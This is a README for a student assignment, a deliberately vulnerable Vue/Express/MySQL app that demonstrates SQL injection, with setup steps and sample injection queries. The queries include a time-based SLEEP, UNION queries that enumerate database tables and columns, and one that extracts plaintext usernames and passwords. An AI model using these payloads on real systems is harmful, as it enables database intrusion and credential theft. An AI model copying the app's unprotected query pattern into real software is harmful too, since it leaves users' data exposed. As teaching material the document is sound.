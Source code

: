 # Secure Systems Assignment 2 - SQL Injection
# Bearach Byrne - C15379616

This is a simple web app originally taken from https://github.com/TanayB11/sql-injection-demo.git, with some minor modifications.

This application is a lesson in how not to create a web application. It purposefully does not make use of any defenses against SQLi attacks.

## Stack
- Vue
- Node + Express
- MySQL

The below setup guide is for Linux (I set it up and ran it on Ubuntu 20.04.4 LTS

## Setup
1. Clone the repo to a directory - `git clone https://github.com/BearachB/sql_inject_demo.git`
8. Install Homebrew - `/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)`. Ensure you add Homebrew to your path and bash shell profile script (follow prompts after installing Homebrew). 
9. Install MySQL `brew install mysql`
10. Start the MySQL server with `mysql.server start`
11. Login to MySQL with `mysql -u root -p`. The default password is blank
12. Run `ALTER USER 'root'@'localhost' IDENTIFIED BY 'new_password';` to change your MySQL password
13. Here, you can check the databases using the `show databases` command, and also check the tables within each using the `show tables` command
14. `QUIT` exits the MySQL monitor - Note: `mysql.server stop` stops the MySQL server. Do not run this if you are using the server.
15. Add your MySQL credentials to an environment variable.
```bash
$ cd server
$ echo 'MYSQL_CREDS="mysql_password"' > .env
```

09. To start the Express Server.
```bash
$ cd client && yarn install     # Installs client dependencies
$ cd ../server && yarn install  # Installs server dependencies
$ yarn dev                      # Starts Express server
```
10. To start the Vue server: In a new terminal, run:
```bash
$ cd client
$ yarn serve                    # Starts Vue.js server
```
11. This should open your default browser and connect to your local Vue server, if this doesn't happen go to your browser and manually connect to localhost:8080. 
13. Try search for a computer part, such as "cpu" or "board".
14. Try some SQLi inputs in the search box: 
```
-- Sleeps for 2 seconds per item found
SELECT * FROM products WHERE name LIKE '%steel%' AND 0 = SLEEP(2); -- 

-- Selects everything
SELECT * FROM products WHERE name LIKE '%'; -- 

-- Append 1, 2, 3 on the bottom
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT 1, 2, 3 FROM dual);  -- 

-- Get a list of tables
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables);  -- 

-- Get all columns from "users" table
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users');  -- 

-- Grab usernames and passwords (stored in plain text)
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT id, username, password FROM users);  -- 
```

------------------------------------------------------------------------------------------------------------------------

If you get errors connecting to MySQL, run the following:
`$ mysql -u root -p`
```SQL
ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'mysql_password';
flush privileges;
QUIT;
```
